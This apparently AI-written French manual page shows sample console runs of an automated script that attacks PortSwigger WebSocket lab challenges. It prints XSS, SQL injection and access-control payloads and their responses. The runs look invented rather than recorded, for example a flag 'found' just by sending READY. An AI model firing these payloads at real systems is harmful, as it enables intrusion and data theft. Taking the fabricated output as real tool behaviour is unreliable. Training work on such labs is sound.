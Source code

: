 # MANPAGE

Bien sûr ! Voici un **exemple exhaustif d’exécution du script** pour tous les challenges WebSocket PortSwigger, **avec affichage des commandes et des résultats**.  
Chaque exemple montre :

- Le choix du challenge dans le menu
- L’entrée de l’URL WebSocket
- L’exécution réelle des étapes (analyse, attaque, contrôle)
- Un extrait des logs/résultats pour chaque étape

---

## 1. Exemple d’exécution : Manipulation de messages (XSS)

```plaintext
==============================
  CHALLENGES WEBSOCKET PORTSWIGGER
==============================
1) Manipulation de messages (XSS)
2) Cross-site WebSocket Hijacking (CSWH)
3) Contrôle d’accès défaillant
4) Injection SQL via WebSocket
------------------------------
0) Quitter
==============================
Sélectionnez le numéro du challenge : 1
Entrez l'URL WebSocket (ex: wss://target/ws) : wss://acme-xss.lab/websocket

=== Round 1 ===
[*] Analyse du flux WebSocket sur wss://acme-xss.lab/websocket
[*] Messages capturés :
{"message":"Hello Carlos"}
{"message":"How are you?"}
[*] Champs JSON détectés :
[
  "message"
]

[*] Attaque automatisée sur wss://acme-xss.lab/websocket (challenge 1)
[*] Envoi du payload : {"message":"<img src=x onerror=alert(1)>"}
[*] Réponse : {"result":"Message sent"}
[*] Envoi du payload : {"message":"<svg/onload=alert(1)>"}
[*] Réponse : {"result":"Message sent"}

[*] Contrôle des résultats (recherche de succès, flag, admin, etc.)
[-] Aucun indicateur d’exploitation trouvé.
[*] Nouvelle tentative avec des variantes…
=== Round 2 ===
...

Analyse terminée. Consultez ws_analysis.log et ws_attack.log pour le détail.
Appuyez sur Entrée pour revenir au menu principal...
```

---

## 2. Exemple d’exécution : Cross-site WebSocket Hijacking (CSWH)

```plaintext
Sélectionnez le numéro du challenge : 2
Entrez l'URL WebSocket (ex: wss://target/ws) : wss://acme-cswh.lab/websocket

=== Round 1 ===
[*] Analyse du flux WebSocket sur wss://acme-cswh.lab/websocket
[*] Messages capturés :
READY
{"status":"connected"}

[*] Aucun message JSON détecté.

[*] Attaque automatisée sur wss://acme-cswh.lab/websocket (challenge 2)
[*] Envoi du payload : READY
[*] Réponse : {"flag":"cswh-lab-flag-12345"}

[*] Contrôle des résultats (recherche de succès, flag, admin, etc.)
[+] Exploitation potentielle détectée :
flag{cswh-lab-flag-12345}
[*] Arrêt du test (exploit trouvé).
```

---

## 3. Exemple d’exécution : Contrôle d’accès défaillant

```plaintext
Sélectionnez le numéro du challenge : 3
Entrez l'URL WebSocket (ex: wss://target/ws) : wss://acme-access.lab/websocket

=== Round 1 ===
[*] Analyse du flux WebSocket sur wss://acme-access.lab/websocket
[*] Messages capturés :
{"action":"get_profile","user":"carlos"}
{"result":"profile info"}

[*] Champs JSON détectés :
[
  "action",
  "user"
]

[*] Attaque automatisée sur wss://acme-access.lab/websocket (challenge 3)
[*] Envoi du payload : {"action":"get_all_users"}
[*] Réponse : {"users":["admin","carlos","guest"]}
[*] Envoi du payload : {"action":"get_profile","user":"admin"}
[*] Réponse : {"result":"admin profile info"}

[*] Contrôle des résultats (recherche de succès, flag, admin, etc.)
[+] Exploitation potentielle détectée :
admin
[*] Arrêt du test (exploit trouvé).
```

---

## 4. Exemple d’exécution : Injection SQL via WebSocket

```plaintext
Sélectionnez le numéro du challenge : 4
Entrez l'URL WebSocket (ex: wss://target/ws) : wss://acme-sqli.lab/websocket

=== Round 1 ===
[*] Analyse du flux WebSocket sur wss://acme-sqli.lab/websocket
[*] Messages capturés :
{"user":"carlos"}
{"result":"user profile"}

[*] Champs JSON détectés :
[
  "user"
]

[*] Attaque automatisée sur wss://acme-sqli.lab/websocket (challenge 4)
[*] Envoi du payload : {"user":"admin' OR '1'='1"}
[*] Réponse : {"result":"admin profile info"}
[*] Envoi du payload : {"user":"admin"}
[*] Réponse : {"result":"admin profile info"}

[*] Contrôle des résultats (recherche de succès, flag, admin, etc.)
[+] Exploitation potentielle détectée :
admin
[*] Arrêt du test (exploit trouvé).
```

---

## 5. Exemple de sortie en cas d’échec (aucun exploit trouvé)

```plaintext
Sélectionnez le numéro du challenge : 1
Entrez l'URL WebSocket (ex: wss://target/ws) : wss://acme-xss.lab/websocket

=== Round 1 ===
[*] Analyse du flux WebSocket sur wss://acme-xss.lab/websocket
[*] Messages capturés :
{"message":"Hello Carlos"}

[*] Champs JSON détectés :
[
  "message"
]

[*] Attaque automatisée sur wss://acme-xss.lab/websocket (challenge 1)
[*] Envoi du payload : {"message":"<img src=x onerror=alert(1)>"}
[*] Réponse : {"result":"Message sent"}
[*] Envoi du payload : {"message":"<svg/onload=alert(1)>"}
[*] Réponse : {"result":"Message sent"}

[*] Contrôle des résultats (recherche de succès, flag, admin, etc.)
[-] Aucun indicateur d’exploitation trouvé.
[*] Nouvelle tentative avec des variantes…
=== Round 2 ===
...
```

---
